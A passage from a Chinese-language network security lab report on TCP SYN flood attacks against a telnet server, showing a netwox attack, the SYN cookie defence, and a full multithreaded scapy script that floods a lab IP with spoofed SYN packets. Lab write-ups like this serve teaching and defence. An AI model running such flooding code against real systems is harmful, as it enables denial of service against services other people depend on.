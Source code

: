 - 使用脚本`syn_netwox.sh`再次进行攻击
  ![1.2.3.使用脚本syn_netwox.sh再次进行攻击](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111735150.png)

- 客户机尝试使用`telnet`连接服务机失败，连接超时，攻击成功
  ![1.2.4.客户机再次尝试使用telnet连接服务机失败，连接超时](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111737884.png)
  
- 此时服务机的`CPU`与内存占用
  ![1.0.2.CPU1](https://raw.githubusercontent.com/BIIIANG/pic/main/202204132103425.png)

### 1.3.2 开启`SYN cookie`

- 开启服务机的`SYN cookie`：`sysctl net.ipv4.tcp_syncookies=1`
- 再次使用脚本`syn_netwox.sh`进行攻击，客户机仍能正常连接服务机，攻击失败（操作步骤依次为：①攻击机开始攻击；②使用`netstat`查看服务机网络状态；③使用`sysctl net.ipv4.tcp_syncookies`查看服务机的`SYN cookie`状态；④客户机使用`telnet`连接服务机成功，即攻击失败）
  ![1.2.5.开启SYN cookie后进行攻击，客户机仍能正常连接服务机，攻击失败](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111851345.png)

## 1.4 使用 scapy 进行攻击

### 1.4.1 关闭`SYN cookie`

- 关闭服务机的`SYN cookie`：`sysctl net.ipv4.tcp_syncookies=0`

- 攻击程序`syn_python.py`如下，在参考程序的基础上添加了多线程，以提高攻击速度：

  ```python
  #!/usr/bin/python3
  from scapy.all import IP, TCP, send
  from ipaddress import IPv4Address
  from random import getrandbits
  import _thread
  
  def syn_flood():
  	ip = IP(dst="172.17.0.3")			# Server IP
  	tcp = TCP(dport=23, flags='S')		# Server telnet port
  	pkt = ip/tcp
  	while True:
          # Random source IP
  	    pkt[IP].src = str(IPv4Address(getrandbits(32)))
          # Random source port
  	    pkt[TCP].sport = getrandbits(16)
          # Random sequence number
  	    pkt[TCP].seq = getrandbits(32)
  	    send(pkt, verbose = 0)
  
  try:
  	for i in range(0, 10):
          # Create multi-thread to attack
  		_thread.start_new_thread(syn_flood, ())
  except:
  	print("Create Thread Error.")
  
  while 1:
     pass
  ```
